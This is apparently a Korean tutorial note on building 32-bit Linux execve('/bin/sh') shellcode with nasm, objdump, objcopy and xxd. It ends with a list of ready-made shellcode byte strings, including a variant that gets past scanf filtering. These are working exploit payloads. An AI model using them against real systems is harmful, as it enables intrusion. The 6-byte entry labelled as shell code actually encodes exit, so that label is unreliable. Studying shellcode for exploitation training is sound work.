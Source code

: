 nasm은 인텔 x86 아키텍처를 위한 어셈블러
주로 Intel 문법을 사용하여 소스 코드를 작성하고, 이를 기계어 코드(ELF형식의 오브젝트 파일)로 변환
`objdump` 도구를 사용하여 `shellcode.o`의 디스어셈블 결과를 출력
```sh
$ sudo apt-get install nasm 
$ nasm -f elf shellcode.asm
$ objdump -d shellcode.o
shellcode.o:     file format elf32-i386
Disassembly of section .text:
00000000 <_start>:
   0:	31 c0                	xor    %eax,%eax
   2:	50                   	push   %eax
   3:	68 2f 2f 73 68       	push   $0x68732f2f
   8:	68 2f 62 69 6e       	push   $0x6e69622f
   d:	89 e3                	mov    %esp,%ebx
   f:	31 c9                	xor    %ecx,%ecx
  11:	31 d2                	xor    %edx,%edx
  13:	b0 0b                	mov    $0xb,%al
  15:	cd 80                	int    $0x80
$ 
```

`objcopy`는 바이너리 파일의 형식을 변환하거나, 바이너리 파일에서 특정 섹션을 추출하거나, 다양한 변환 작업을 수행하는 도구
여기서는 `shellcode.o` 오브젝트 파일의 `.text` 섹션(코드 섹션)을 `shellcode.bin`이라는 파일로 추출함
결과적으로 어셈블리 코드가 어셈블된 기계어 코드(바이너리 데이터)만 추출되어 `shellcode.bin` 파일에 저장
`xxd`는 바이너리 파일의 내용을 16진수 형식으로 표시하거나, 16진수로 표시된 데이터를 바이너리 형식으로 변환하는 도구
```sh
$ objcopy --dump-section .text=shellcode.bin shellcode.o
$ xxd shellcode.bin
00000000: 31c0 5068 2f2f 7368 682f 6269 6e89 e331  1.Ph//shh/bin..1
00000010: c931 d2b0 0bcd 80                        .1.....
$
```

```sh
# execve /bin/sh shellcode: 
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"
```

# 있는 쉘코드 이용하기
구글링하면 이미 쉘코드가 많이 있음
## 32bit shellcode
- 6 Bytes Shell Code 
`\x31\xc0\xb0\x01\xcd\x80`

- 25 Bytes Shell Code (기본 쉘코드)
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80`
 
- 26 Bytes Shell Code (scanf 우회 쉘코드)
`\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80`
scanf는 0x0b를 필터링하는 특징이 있는데, 기본 쉘코드에서 0x0b를 가지고 있으므로 해당 부분을 변형함
